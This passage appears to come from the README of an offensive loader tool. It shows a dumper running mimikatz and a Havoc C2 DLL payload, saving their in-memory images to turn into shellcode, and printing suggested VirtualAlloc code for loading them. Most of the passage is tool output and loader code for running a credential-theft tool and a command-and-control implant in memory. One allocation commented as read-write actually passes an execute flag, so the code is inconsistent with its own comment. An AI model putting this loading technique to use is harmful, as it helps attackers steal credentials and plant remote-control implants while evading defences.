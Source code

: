In this way, rather than manually map a file, we only need to patch specific data regions like `Import Directory`, `Base Relocation Table Directory`, `Delayed Load Import Descriptors Directory`, etc.

The dumped main module will be saved as a binary file to append to the shellcode stub.

For instance, DumpPEFromMemory executes a classic tool mimikatz, and dumps its main module into a binary file.

```powershell
PS C:\dev\inflativeloading> .\DumpPEFromMemory.exe .\mimikatz.exe mimikatz.bin
[+] The file is an EXE file
[+] Process PID: 23052
[+] PEB Address:00000000004A5000
[+] Image Base Address:00007FF730E00000
[+] e_lfanew is 0x120
[+] Size Of The Image : 0x137000
[+] Size Of Optional Header : 0xf0
[+] Size Of text Section : 0xc5000
[+] Size of other sections of mapped .\mimikatz.exe is 0x71000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0xc5000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0xc5000, 0x71000, 0x3000, 0x20);

[+] 29 iterations are needed

[+] Data successfully written to mimikatz.bin. Total bytes read: 0x137000
```
![image](/screenshot/dumper-exe.jpg)


And dump Havoc DLL payload from memory:

```powershell
PS C:\dev\inflativeloading> .\DumpPEFromMemory.exe .\havocdll.dll havocdll.bin
[+] The file is a DLL file
[+] Image base of mapped .\havocdll.dll is 0x87fd0000
[+] e_lfanew of mapped .\havocdll.dll is 0x80
[+] imageSize of mapped .\havocdll.dll is 0x1e000
[+] Size of optinalHeader of mapped .\havocdll.dll is 0xf0
[+] Offset of section Header of mapped .\havocdll.dll is 0x188
[+] Size of text section of mapped .\havocdll.dll is 0x18000
[+] Size of other sections of mapped .\havocdll.dll is 0x5000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0x18000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0x18000, 0x5000, 0x3000, 0x20);

[+] Data successfully written to havocdll.bin
```
